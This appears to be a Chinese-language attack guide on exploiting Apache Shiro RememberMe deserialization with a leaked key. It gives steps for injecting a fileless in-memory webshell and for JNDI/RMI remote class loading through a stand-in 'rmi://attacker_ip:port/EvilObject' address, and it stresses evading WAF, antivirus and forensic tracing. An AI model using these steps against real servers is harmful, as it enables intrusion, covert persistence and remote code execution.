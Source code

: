 ### Shiro 有 Key 无链怎么利用

**1. 内存马注入**

这是目前最主流且最有效的利用方法之一。如果能通过反序列化注入一个内存马，我们就可以直接与服务器进行交互，绕过 WAF、IDS 等安全设备，并且不留下任何磁盘文件

**利用原理**：

- **自定义反序列化类**：我们需要构造一个恶意的序列化数据，其中包含一个自定义的类
- **反射机制**：这个自定义类在反序列化时，其 `readObject` 方法会被调用。我们利用反射机制，在 `readObject` 方法中获取当前应用的 `ServletContext`
- **注入 Webshell**：有了 `ServletContext`，我们就可以动态地注册一个 Servlet、Filter 或者 Listener，从而注入一个内存 Webshell

**具体步骤**：

1. **编写内存马代码**：使用 Java 编写一个内存马，通常是一个 Filter 或 Servlet，用于接收请求并执行命令
2. **构造恶意序列化数据**：将内存马代码嵌入到序列化数据中
3. **加密**：使用泄露的 Shiro Key，对这个序列化数据进行 AES 加密
4. **发送请求**：将加密后的数据作为 RememberMe cookie 的值发送到服务器
5. **反序列化**：Shiro 框架会解密并反序列化这个 cookie，从而触发我们的恶意代码，实现内存马注入

**优势**：

- **绕过传统安全设备**：内存马直接运行在内存中，不依赖于文件，因此可以绕过绝大部分基于文件扫描的 WAF 和杀毒软件
- **无文件落地**：攻击不留下任何磁盘痕迹，增加了溯源的难度

**2. RMI 远程加载**

这种方法利用了 Java 的远程方法调用（RMI）机制，通过反序列化来触发远程加载恶意代码

**利用原理**：

- **JNDI 注入**：反序列化时，我们可以构造一个 `com.sun.jndi.rmi.registry.RegistryContext` 对象，通过 JNDI 注入的方式，让服务器去连接一个我们控制的 RMI 服务器
- **远程加载 Class 文件**：RMI 服务器会返回一个恶意对象，该对象会触发服务器远程加载并实例化我们提供的恶意 Class 文件

**具体步骤**：

1. **搭建 RMI Server**：利用 `ysoserial` 或自定义代码搭建一个恶意的 RMI 服务器
2. **编写恶意 Class**：编写一个恶意的 Class 文件，其中包含要执行的命令
3. **构造恶意序列化数据**：构造一个包含 JNDI 注入链接的序列化数据，例如 `rmi://attacker_ip:port/EvilObject`
4. **加密并发送**：使用 Shiro Key 对数据进行加密，并作为 RememberMe cookie 发送
5. **反序列化触发**：服务器反序列化时，会触发 JNDI 注入，连接我们的 RMI 服务器并加载恶意 Class，最终实现命令执行

**限制**：

- 需要目标服务器能够访问外网或者我们内网的 RMI 服务器
- Java 版本对 JNDI 注入有一定限制，高版本可能需要额外配置